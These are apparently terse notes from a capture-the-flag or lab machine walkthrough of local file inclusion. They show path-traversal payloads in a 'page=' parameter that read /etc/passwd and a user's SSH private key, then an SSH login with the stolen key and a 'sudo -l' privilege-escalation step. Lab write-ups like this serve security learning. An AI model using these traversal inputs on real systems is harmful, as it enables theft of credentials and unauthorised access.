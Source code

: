 # LFI - Local File Inclusion
# Data: 27.09.2020

IP:`10.10.0.88`
------------------

(...)page=
	../../etc/passwd
found user: falcon

	../../home/falcon/.ssh/id_rsa
found id_rsa in falcons home dir

login via ssh using login: falcon and id_rsa key

found flag in user.txt

------Privilege Escalation------

sudo -l


root.txt flag in root home dir 


